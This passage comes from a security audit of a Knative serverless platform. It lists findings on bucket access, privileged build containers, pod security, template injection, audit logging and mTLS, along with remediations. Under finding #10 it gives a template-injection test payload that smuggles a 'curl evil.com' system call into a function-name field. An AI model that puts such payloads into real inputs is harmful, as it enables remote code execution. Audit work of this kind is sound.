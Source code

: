 #### 7. S3/MinIO Access Controls Unclear
**Status**: ⚠️ Needs Review  
**Impact**: Unauthorized data access, data exfiltration  
**Remediation**:
- Review bucket policies
- Implement pre-signed URL expiration
- Audit access logs

#### 8. Build Container Runs Privileged
**Status**: 🔴 Critical if true  
**Impact**: Container escape to host  
**Verification Needed**: Check Kaniko job security context  
**Remediation**: Run Kaniko unprivileged if possible

#### 9. No Pod Security Standards
**Status**: ⚠️ Needs Implementation  
**Impact**: Insecure pod configurations  
**Remediation**:
```yaml
# Add to namespace
apiVersion: v1
kind: Namespace
metadata:
  name: knative-lambda
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/audit: restricted
    pod-security.kubernetes.io/warn: restricted
```

#### 10. Template Injection Risk
**Status**: ⚠️ Needs Review  
**Files**: `internal/templates/templates.go`  
**Impact**: Code execution via template injection  
**Test**:
```go
functionName := "{{.}}{{system \"curl evil.com\"}}"
```

---

### 🟡 P2 - Medium (Address This Quarter)

#### 11. No Audit Logging
**Status**: ⚠️ Partial (K8s audit logs only)  
**Impact**: Difficult incident investigation  
**Remediation**: Implement application-level audit logging

#### 12. mTLS Not Verified
**Status**: ⚠️ Depends on Linkerd config  
**Impact**: Traffic interception, MITM attacks  
**Verification**: Check Linkerd mesh configuration
